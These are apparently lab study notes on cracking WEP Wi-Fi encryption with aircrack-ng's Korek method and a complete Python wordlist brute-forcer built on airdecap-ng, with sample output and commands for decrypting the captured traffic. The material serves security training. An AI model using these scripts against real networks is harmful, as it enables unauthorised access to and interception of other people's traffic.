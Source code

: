 # Chain #24: Additional WEP Cracking

Short purpose: explore **extra ways to crack WEP**, including benchmarking, Korek cracking using IVs, and a Python-based **offline dictionary attack** leveraging `airdecap-ng`. Reinforces how weak and outdated WEP encryption truly is.

---

## Key terms

- **IV (Initialization Vector)** — the per-packet random value that weakens WEP’s RC4 implementation.
- **Korek method** — advanced WEP cracking algorithm in `aircrack-ng` using statistical key byte recovery.
- **airdecap-ng** — decrypts packets using a provided key; can be used for brute-force verification.
- **Dictionary attack** — testing many possible keys until a decryption works.
- **Hex key** — 10-character hexadecimal string representing a 5-byte ASCII WEP key.

---

## Step-by-step workflows

### 1) Benchmarking CPU with aircrack-ng

```bash
aircrack-ng -S
```

- **`-S`**: runs internal benchmark mode.    
- **Purpose**: measures cracking speed (keys per second).
- **Output**: `1628.101 k/s` → your CPU can test ~1,628 keys/sec.
- **Use case**: helps estimate how long brute-force or dictionary cracking will take.

---

### 2) Korek WEP cracking from IVs

```bash
aircrack-ng -K HTB.ivs
```

- **`-K`**: activates Korek statistical method (default is PTW).
- **`HTB.ivs`**: file containing only IVs (collected via `airodump-ng --ivs`).
- **Process**:
    - Reads IVs.
    - Calculates key candidates via Korek attacks.
    - Displays probability votes for each byte.
- **Result**: once IVs are sufficient, output shows:
    ```
    KEY FOUND! [ AB:C7:7F:3A:03:D0:AF:DA:F6:8D:A5:E2:C7 ]
    Decrypted correctly: 100%
    ```
- **Note**: requires thousands of IVs; the more, the better accuracy.

---

### 3) Offline brute-force cracking with Python + airdecap-ng

Used when few packets are available — instead of cracking with `aircrack-ng`, test many keys with `airdecap-ng`.

#### a) Python brute-force script explanation

```python
import sys, binascii, re
from subprocess import Popen, PIPE
import time

start_time = time.time()
cap_file = '/opt/WEP-01.cap'
wordlist_path = '/opt/1000000-password-seclists.txt'

# Load password list
with open(wordlist_path, 'r') as f:
    wordlist = f.readlines()

for ln, word in enumerate(wordlist, start=1):
    key = re.sub(r'\W+', '', word)  # Clean word
    if len(key) != 5:
        continue
    hex_key = binascii.hexlify(key.encode('utf-8'))
    print(f"{ln}: Trying Key: {key} Hex: {hex_key}")

    # Run airdecap-ng with this key
    p = Popen(['/usr/bin/airdecap-ng', '-w', hex_key, cap_file], stdout=PIPE)
    output = p.stdout.read().decode('utf-8')

    # Check success condition
    if int(output.split('\n')[5][-1]) > 0:
        print(f"Success! WEP key found: {key}")
        print(f"Total time: {time.time() - start_time:.6f} seconds")
        sys.exit(0)

print("No WEP key found")
```

#### b) Explanation line-by-line

- **Imports**: subprocess (run airdecap), binascii (convert to hex), regex (clean strings), sys/time.    
- **cap_file**: captured WEP data file.
- **wordlist_path**: text file with possible passwords.
- **Filter**: only 5-character words (standard ASCII WEP keys).
- **Conversion**: converts ASCII → hex (e.g., `'cheek'` → `'636865656b'`).
- **Testing**: runs `airdecap-ng -w <hex_key> <cap_file>`.
- **Success check**: if any packets decrypt, the key is correct.
- **Output**: prints key + runtime and exits.

#### Example run

```bash
python3 bruteforce.py
```

Output snippet:

```
49972: Trying Key: b'cheek' Hex: b'636865656b'
Success! WEP key found: b'cheek'
Total time: 6.088396 seconds
```

---

### 4) Decrypting captured data with the discovered key

```bash
airdecap-ng -w 636865656b WEP-01.cap
```

- **`-w`**: specify the key (hex format).
- **`WEP-01.cap`**: input capture.
- **Result**: `Number of decrypted WEP packets > 0` confirms success.
- **Generates**: new file, e.g., `WEP-01-dec.cap` containing plaintext frames.
- **Next step**: open in Wireshark to view decrypted ARP, ICMP, etc.

---

## Quick reference block

```bash
# Benchmark performance
aircrack-ng -S

# Crack WEP using Korek method
aircrack-ng -K <file.ivs>

# Python offline brute-force (airdecap)
python3 bruteforce.py

# Decrypt packets with found key
airdecap-ng -w <hex_key> <capture.cap>
```

---

## Summary (one-paragraph)

These advanced WEP cracking approaches demonstrate multiple weak points: the **Korek method** efficiently uses IVs, while an **offline Python + airdecap brute-force** can recover short ASCII keys even with minimal data. Once found, the key easily decrypts captured frames for full network inspection. Modern standards like WPA2/WPA3 completely mitigate such weaknesses — reinforcing why WEP should never be used.